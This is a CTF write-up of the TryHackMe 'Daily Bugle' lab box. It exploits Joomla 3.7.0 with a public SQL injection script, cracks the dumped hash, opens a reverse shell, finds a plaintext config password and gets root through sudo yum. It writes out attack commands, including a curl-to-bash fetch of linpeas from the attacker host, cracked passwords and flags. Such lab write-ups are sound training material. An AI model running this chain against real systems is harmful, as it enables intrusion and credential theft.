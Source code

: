 ```yaml
---
title: TryHackMe - Daily Bugle
description: My writeup on Daily Bugle box.
categories:
 - tryhackme
tags: tryhackme whatweb joomla joomscan searchsploit sqli john linpeas sudo yum bash
---
```


![](https://i.imgur.com/Ilrzate.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **Daily Bugle**  |
| Difficulty :  | **Hard**             |
| Play :    | [Daily Bugle](https://tryhackme.com/room/dailybugle){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

Hello, i don't know why this box rate is "hard" more like easy/medium. It's about exploiting a vulnerable joomla version. First privesc is finding a plaintext password in a config file & privesc to root is about yum. Let's start!

## Enumeration/Reconnaissance

Now as always let’s continue with a nmap scan.

```
$ ip=10.10.94.113
$ nmap -sC -sV -oN nmap/dailybugle.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-18 14:28 EET
Nmap scan report for 10.10.94.113 (10.10.94.113)
Host is up (0.12s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
```

The website is running joomla, we can detect that using `whatweb` too.

```
$ whatweb http://$ip/ | tee scans/whatweb.txt
http://10.10.94.113/ [200 OK] Apache[2.4.6], Bootstrap, Cookies[eaa83fe8b963ab08ce9ab7d4a798de05], Country[RESERVED][ZZ], HTML5, HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.6.40], HttpOnly[eaa83fe8b963ab08ce9ab7d4a798de05], IP[10.10.94.113], JQuery, MetaGenerator[Joomla! - Open Source Content Management], PHP[5.6.40], PasswordField[password], Script[application/json], Title[Home], X-Powered-By[PHP/5.6.40]
```

Let's fire up a `joomscan`.

```
$ joomscan --url http://$ip/ | tee scans/joomscan.txt

Processing http://10.10.94.113/ ...           

[+] FireWall Detector                         
[++] Firewall not detected                    

[+] Detecting Joomla Version                  
[++] Joomla 3.7.0                     

...data...
```

We got the version, let's search for possible exploits.

```
$ searchsploit joomla 3.7.0
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                 |  Path
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                                                                                                     | php/webapps/42033.txt
```

## Shell as www-data

Perfect, i found another exploit on github that does all the job. You can find it [here](https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py){:target="_blank"} Let's download it and fire it up!

```
$ python joomblah.py http://$ip/

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Now let's crack the password hash using john. (takes some time)

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
```

Let's login now under `/administrator` and spawn a reverse shell. If you dont know how to spawn a reverse shell check my writeup on [DC3 box](https://0xatom.github.io/vulnhub/2020/12/20/dc3/){:target="_blank"}

```
$ nc -lvp 5555
listening on [any] 5555 ...

sh-4.2$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ whoami;id
apache
uid=48(apache) gid=48(apache) groups=48(apache)
```

## Shell as jjameson

Let's fire up now [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite){:target="_blank"}

Download the script and open a python SimpleHTTPServer.

```
$ python3 -m http.server 80
```

Now transfer the file and pipe it to bash.

```
bash-4.2$ curl http://10.9.234.105/linpeas.sh | bash
```

Looking through the output i detected a password:

```
/var/www/html/configuration.php:        public $password = 'nv5uz9r3ZEDzVjNu';
```

We can switch to user `jjameson` now.

```
bash-4.2$ su - jjameson
Password: nv5uz9r3ZEDzVjNu

[jjameson@dailybugle ~]$ whoami;id
jjameson
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
```

## Shell as root

Checking the `sudo -l` as always, we can run `yum` as root.

```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Checking the [GTFObins page](https://gtfobins.github.io/gtfobins/yum/#sudo){:target="_blank"} there are lot of commands that we have to write..

![](https://i.imgur.com/wfBAcXi.png)

We will create a shell script in our box with all the commands and transfer it to target box.

![](https://i.imgur.com/2MPtU5D.png)

Let's read the flags.

```
sh-4.2# cat /root/root.txt; cat /home/jjameson/user.txt                                                                                                                          
eec3d53292b1821868266858d7fa6f79                                                                                                                                                 
27a260fe3cba712cfdedb1c86d80442e       
```

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
